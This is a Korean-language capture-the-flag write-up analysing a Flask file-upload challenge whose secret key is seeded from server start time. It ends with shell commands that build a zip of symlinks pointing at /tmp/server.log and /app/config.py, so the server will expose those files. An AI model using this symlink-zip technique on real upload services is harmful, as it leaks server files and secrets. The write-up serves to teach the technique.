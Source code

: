 ZIP 파일을 업로드 하면 linux의 unzip으로 `{DATA_DIR}uploads/{uuidpath}` 경로에 파일을 푼다. 

```python
@app.route("/uploads/<path:path>")
def uploads(path):
    try:
        return send_from_directory(DATA_DIR + "uploads", path)
    except PermissionError:
        abort(404)
```

푼 파일은 위에 있는 라우팅 코드로 열람할 수 있도록 만들어놨다.

```python
@app.route("/flag")
def flag():
    if not session.get("admin"):
        return "Unauthorized!"
    return subprocess.run("./flag", shell=True, stdout=subprocess.PIPE).stdout.decode("utf-8")
```

플래그를 획득하기 위해선 세션의 `admin` 값을 `True`로 만들어야 한다.

```docker
CMD bash -c "mkdir /tmp/uploadraw /tmp/uploads && sqlite3 /tmp/database.db \"CREATE TABLE users(username text, password text, admin boolean)\" && /usr/local/bin/gunicorn --bind 0.0.0.0:1337 --config config.py --log-file /tmp/server.log wsgi:app"
```

`gunicorn`에 `flask`를 물려서 서버를 구현했는데, `/tmp/server.log` 에 서버 로그를 저장하도록 구성하였다.

```python
import random
import os
import time

SECRET_OFFSET = 0 # REDACTED
random.seed(round((time.time() + SECRET_OFFSET) * 1000))
os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
```

`SECRET_OFFSET`과 서버를 시작한 시점의 값을 더한 값을 `random.seed`로 설정한 다음, 32 길이의 16진수 숫자를 생성해 `flask`의 `SECRET_KEY`로 사용하고 있다.

### 어디서부터 시작할까

`flask`의 `SECRET_KEY`를 `seed`를 입력한 랜덤 모듈에서 생성하는 것을 통해 SECRET_KEY를 재현할 수 있음을 알 수 있다. 또한 `[config.py](http://config.py)` 에서 삭제된 `SECRET_OFFSET` 값을 `seed`를 입력할 때 사용하는 것을 통해 실서버에 있는 `config.py` 파일을 유출 시켜야 함을 유추할 수 있다.

Linux에서는 심볼릭 링크 또한 `zip` 커맨드로 압축할 수 있다. 심볼릭 링크를 압축한 파일이 서버로 업로드 되면 `unzip` 커맨드로 압축 해제되면서 `{DATA_DIR}uploads/{uuidpath}` 에 위치하게 되는데, 이때 심볼릭 링크 기능 또한 그대로 유지된다. 유출하고 싶은 파일에 심볼릭 링크를 생성하고 압축한 다음 올리면 열람할 수 있는 것이다.

```bash
$ ln -s /tmp/server.log 1
$ ln -s /app/config.py 2
$ zip --symlink exp.zip 1 2
adding: 1 (stored 0%)
adding: 2 (stored 0%)
```
